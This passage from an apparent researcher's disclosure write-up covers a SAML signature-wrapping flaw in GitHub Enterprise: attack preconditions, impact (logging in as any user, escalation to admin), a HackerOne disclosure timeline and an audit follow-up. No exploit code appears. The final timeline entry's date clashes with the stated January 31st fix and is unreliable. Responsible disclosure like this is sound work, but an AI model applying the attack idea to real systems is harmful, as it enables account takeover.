   Provider. Possible sources for this can be Identity Provider logs,
   other Service Provider logs, mailing list archives, StackOverflow
   Questions , etc.

Note that an external attacker has the inherent difficulty as they would need a valid Assertion from a trusted Identity Provider in order to mount the attack. However the fact that the Assertion can be

- expired

- or even destined to another Service Provider

significantly raises the chances.


Impact
``````

-  An external attacker taking advantage of this can authenticate to a GHE instance as any user

-  An internal attacker taking advantage of this can authenticate to a GHE instance as any user

-  An internal attacker taking advantage of this can elevate their rights to admin in a GHE instance

Disclosure
``````````

I reported this to Github security via Hackerone on 16th of January. It was acknowledged and triaged after a couple of hours and resolved on January 31st with GHE version `2.8.7 <https://enterprise.github.com/releases/2.8.7/notes>`_ 


Timeline
---------

- 2017-01-10: Incorrect XML Signature validation vulnerability discovered and reported

- 2017-01-10: Report acknowledged

- 2017-01-11: Report triaged

- 2017-01-12: Mitigation released with v. 2.8.6 and bounty awarded

- 2017-01-16: XSW vulnerability discovered and reported

- 2017-01-16: Report acknowledged and triaged

- 2017-01-27: Asked for update on mitigation/release

- 2017-01-12: Mitigation released with v. 2.8.7 and bounty awarded


Full SAML Implementation Assessment
------------------------------------

Following the above reports I received a research grant in order to continue looking into Github's SAML implementation. I performed a full (to the extend that the agreed timeframe and my off-work availability allowed) security audit which uncovered a couple of minor issues and a set of suggestions/recommendations about the implementation in order to minimize the possibility of similar issues in the future. 


Outro
------

I enjoyed finding and writing these so I hope if you made it through to the end, you did too. Working with the Github Security guys was a bliss and I can verify first hand that their approach towards their bounty program is as serious and as cool as they describe it on their recent `blog post <https://githubengineering.com/githubs-bug-bounty-workflow/>`_


